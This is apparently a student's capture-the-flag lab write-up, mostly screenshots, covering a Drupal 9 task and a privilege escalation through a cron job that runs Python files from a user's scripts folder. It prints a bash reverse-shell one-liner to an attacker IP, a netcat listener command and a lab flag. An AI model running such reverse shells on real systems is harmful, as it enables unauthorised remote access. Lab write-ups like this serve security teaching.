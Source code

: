 <img width="749" alt="image" src="https://user-images.githubusercontent.com/59768512/164413183-b75a837e-0178-47c0-93b5-fd7dfcb6c662.png">


The Drupal version is Drupal 9:
![image](https://user-images.githubusercontent.com/70077872/164648153-d13cb920-33c4-4213-83f7-b7c1da267191.png)




# Task 3


![image](https://user-images.githubusercontent.com/70077872/167573879-1302944a-d324-45a6-800e-147cb45be604.png)


![image](https://user-images.githubusercontent.com/70077872/167573750-8dca4946-dd94-4f2d-8923-ecbda7b62a48.png)


![image](https://user-images.githubusercontent.com/70077872/167573128-1848a4ee-8881-4bbb-96e2-9aabb47cfe50.png)

![image](https://user-images.githubusercontent.com/70077872/167573357-162e2f3f-67d6-414f-bfb7-b871ac042453.png)

Flag: IKT449{who_would_have_thought_adding_modules_is_bad}


# Last


After we have gained access to `www-data`, it is time to see if we can gain access the first user. Firstly, by going to `/home/user` reveals that there are is a folder called "coding_project". This folder contains a README file, a shell script and a Scripts folder. As the README file states, the user is tired of people asking him/her to run Python files, so the file states: "to avoid further work on my part you can run any file as me instead!". This is a potential vulnerability as files put in the folder `/scripts` is essentially run with the privileges of the user:

![image](https://user-images.githubusercontent.com/70077872/167387362-d4e82870-b257-4335-8acb-e25c97628496.png)


The `run_files.sh` is just a script that enter the script folder, runs the file(s) with python3, and removes it afterwards. Here, we can put in a file run as the user to try to gain access to the user account:

![image](https://user-images.githubusercontent.com/70077872/167388008-555a28ea-6279-40cc-841b-08f8c5f108c5.png)

A common attack vector would be to execute a python file that runs a reverse shell back to our machine. Since the script is run with user privileges, the reverse shell will ensure the connection runs with the user; giving us access. To execute this, and to allow python to run bash commands, we use the `os.system()` function which allows us to execute any command. The following code is a one-liner which is able to exploit this vulnerability:

![image](https://user-images.githubusercontent.com/70077872/167413332-dadfb1b2-d2f8-4c73-a4a1-e59d99054a63.png)


`echo "import os;os.system(\"/bin/bash -c \'bash -i >& /dev/tcp/10.225.149.204/9995 0>&1\'\")" > exploit.py`

When the cronjob automatically runs the `run_files.sh` which runs the `exploit.py` file, we get a connection using `nc -nlvp 9995` for listening on any incoming connections:

![image](https://user-images.githubusercontent.com/70077872/167413710-d34f73d1-0c22-4cb5-b303-1a3cb982bb11.png)

We can then collect the flag:

![image](https://user-images.githubusercontent.com/70077872/167413907-7375442e-0738-4ab0-abaf-72f33731a871.png)

